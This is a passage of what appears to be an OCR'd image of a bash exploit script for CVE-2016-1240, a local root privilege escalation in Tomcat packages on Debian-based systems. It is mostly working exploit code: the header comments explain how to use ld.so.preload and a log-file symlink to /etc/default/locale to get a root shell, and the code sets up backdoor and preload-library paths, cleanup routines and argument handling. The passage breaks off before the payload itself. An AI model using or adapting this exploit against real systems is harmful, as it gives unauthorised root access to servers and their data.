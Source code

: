 ```
# The exploit can used in two ways:
#
# -active (assumed by default) - which waits for a Tomcat restart in a loop and instantly
# gains/executes a rootshell via ld.so.preload as soon as Tomcat service is restarted. 
# It also gives attacker a chance to execute: kill [tomcat-pid] command to force/speed up
# a Tomcat restart (done manually by an admin, or potentially by some tomcat service watchdog etc.)
#
# -deferred (requires the -deferred switch on argv[2]) - this mode symlinks the logfile to 
# /etc/default/locale and exits. It removes the need for the exploit to run in a loop waiting. 
# Attackers can come back at a later time and check on the /etc/default/locale file. Upon a 
# Tomcat restart / server reboot, the file should be owned by tomcat user. The attackers can
# then add arbitrary commands to the file which will be executed with root privileges by 
# the /etc/cron.daily/tomcatN logrotation cronjob (run daily around 6:25am on default 
# Ubuntu/Debian Tomcat installations).
#
# See full advisory for details at:
# http://legalhackers.com/advisories/Tomcat-DebPkgs-Root-Privilege-Escalation-Exploit-CVE-2016-1240.html
#
# Disclaimer:
# For testing purposes only. Do no harm.
#

BACKDOORSH="/bin/bash"
BACKDOORPATH="/tmp/tomcatrootsh"
PRIVESCLIB="/tmp/privesclib.so"
PRIVESCSRC="/tmp/privesclib.c"
SUIDBIN="/usr/bin/sudo"

function cleanexit {
    # Cleanup 
    echo -e "\n[+] Cleaning up..."
    rm -f $PRIVESCSRC
    rm -f $PRIVESCLIB
    rm -f $TOMCATLOG
    touch $TOMCATLOG
    if [ -f /etc/ld.so.preload ]; then
        echo -n > /etc/ld.so.preload 2>/dev/null
    fi
    echo -e "\n[+] Job done. Exiting with code $1 \n"
    exit $1
}

function ctrl_c() {
        echo -e "\n[+] Active exploitation aborted. Remember you can use -deferred switch for deferred exploitation."
    cleanexit 0
}

#intro 
echo -e "\033[94m \nTomcat 6/7/8 on Debian-based distros - Local Root Privilege Escalation Exploit\nCVE-2016-1240\n"
echo -e "Discovered and coded by: \n\nDawid Golunski \nhttp://legalhackers.com \033[0m"

# Args
if [ $# -lt 1 ]; then
    echo -e "\n[!] Exploit usage: \n\n$0 path_to_catalina.out [-deferred]\n"
    exit 3
fi
if [ "$2" = "-deferred" ]; then
    mode="deferred"
else
    mode="active"
```